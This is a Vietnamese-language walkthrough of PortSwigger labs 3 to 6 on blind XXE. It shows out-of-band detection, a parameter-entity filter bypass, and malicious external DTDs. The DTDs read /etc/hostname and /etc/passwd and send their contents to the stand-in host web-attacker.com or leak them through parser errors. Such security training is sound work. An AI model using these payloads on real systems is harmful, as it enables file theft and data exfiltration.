 # [Lab 3: Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

![Yêu cầu lab 3](../image/lab3/0.png)

> - **Mô tả lab:** Chức năng `Check stock` phân tích cú pháp đầu vào XML nhưng không hiển thị kết quả trong response. Tuy nhiên có thể phát hiện lỗ hổng `blind XXE` bằng cách kích hoạt OOB.
> 
> - **Mục tiêu:** Sử dụng một thực thể bên ngoài để làm cho trình phân tích cú pháp XML phát hành tra cứu DNS và yêu cầu HTTP tới `Burp Colaborator`.

Chèn XML nhưng response không hề có kết quả trả về khi thực hiện cú pháp.

![Alt text](../image/lab3/01.png)

Ta sẽ khai thác `Blind XXE` bằng cách kích hoạt OOB

![Alt text](../image/lab3/02.png)

phản hồi từ `Collaborator`

![Alt text](../image/lab3/03.png)

sovle the lab

![Alt text](../image/lab3/04.png)

> **Test bằng Active Scan**

![Alt text](../image/lab3/05.png)

![Alt text](../image/lab3/06.png)

# [Lab 4: Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

![Yêu cầu lab 4](../image/lab4/0.png)

> - **Mô tả lab:** Chức năng `Check stock` phân tích cú pháp đầu vào XML nhưng không hiển thị kết quả không mong muốn và chặn các yêu cầu chứa các thực thể từ bên ngoài.
> 
> - **Mục tiêu:** Sử dụng một thực thể bên ngoài để làm cho trình phân tích cú pháp XML phát hành tra cứu DNS và yêu cầu HTTP tới `Burp Colaborator`.

Khi thực hiện chèn thực thế từ bên ngoài, thì bị block `Entities are not allowed for security reasons`

![Alt text](../image/lab4/01.png)

Test tiếp, ta sẽ bypass bằng sử dụng tham số `%xxe`: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>`

![Alt text](../image/lab4/02.png)

Tuy nhiên chỉ hiển thị lỗi mà không có trả về kết quả của ta mong muốn, vậy là `Blind XXE`, ta sẽ kích hoạt OOB: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://domain"> %xxe; ]>`

![Alt text](../image/lab4/03.png)

nhưng bên này nhận được DNS rồi

![Alt text](../image/lab4/04.png)

solve the lab

![Alt text](../image/lab4/05.png)

> **Test bằng Active Scan**

![Alt text](../image/lab4/06.png)

![Alt text](../image/lab4/07.png)

# [Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

![Yêu cầu lab 5](../image/lab5/0.png)

> - **Mô tả lab:** Có tính năng `Check stock` để phân tích dữ liệu đầu vào XML nhưng không hiển thị kết quả. 
> 
> - **Mục tiêu:** Lọc nội dung của tệp `/etc/hostname`.

Test thử một lúc thì phát hiện dạng là `Blind XXE` rồi vì chỉ có trả về thông báo chứ không có dữ liệu gì cả, và ta có thể kích hoạt OOB.

![main web](../image/lab5/01.png)

Phản hồi từ `Collaborator`

![Alt text](../image/lab5/02.png)

Vì cần đọc được nội dung file `/etc/hostname`, nên ta cần tạo 1 DTD độc hại để đọc được nội dung file này

    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;

- Có 2 thực thể được định nghĩa là `%file` và `%eval`

    - `%file` được trỏ đến tệp `/etc/hostname`

    - `%eval` được định nghĩa để tạo thực thể khác là `%exfiltrate`

    - `%exfiltrate` gửi thông tin về tệp tin `/etc/hostname` tới trang web `http://web-attacker.com/`

![Alt text](../image/lab5/03.png)

Store lại và file DTD sẽ được lưu tại `URL` ở đầu trang

Cuối cùng, tấn công gửi XXE: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

![Alt text](../image/lab5/04.png)

Quan sát từ `Collaborator`, ta đã thấy nội dung file được trả về

![Alt text](../image/lab5/05.png)

submit và solve lab

![Alt text](../image/lab5/06.png)

> **Test bằng Active Scan**

![Alt text](../image/lab5/07.png)

![Alt text](../image/lab5/08.png)

# [Lab 6: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

![Yêu cầu lab 6](../image/lab6/0.png)

> - **Mô tả lab:** Có tính năng `Check stock` để phân tích dữ liệu đầu vào XML nhưng không hiển thị kết quả.
> 
> - **Mục tiêu:** Sử dụng DTD bên ngoài để kích hoạt thông báo lỗi hiển thị nội dung của tệp `/etc/passwd`. 

Khi ta chèn cú pháp XML thì trong phản hồi của ứng dụng có chỉ ra lỗi khi phân tích cú pháp

![Alt text](../image/lab6/01.png)

Giờ ta sẽ tạo 1 file DTD độc hại để kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung tệp `/etc/passwd`

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

- Có 2 thực thể được định nghĩa là `%file` và `%eval`

    - `%file` được trỏ đến tệp `/etc/passwd`

    - `%eval` được định nghĩa để tạo thực thể khác là `%error`

    - `%error` trỏ tới một tệp không tồn tại chứa thông tin của tệp `/etc/passwd`

![Alt text](../image/lab6/02.png)

Sau khi Store thì file sẽ được lưu tại `URL` hiển thị ở đầu trang

Cuối cùng là gửi tấn công XXE: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>` và hiển thị thành công lỗi khi phân tích cú pháp XML

![Alt text](../image/lab6/03.png)

solve lab

![Alt text](../image/lab6/04.png)

> **Test bằng Active Scan**

![Alt text](../image/lab6/05.png)

![Alt text](../image/lab6/06.png)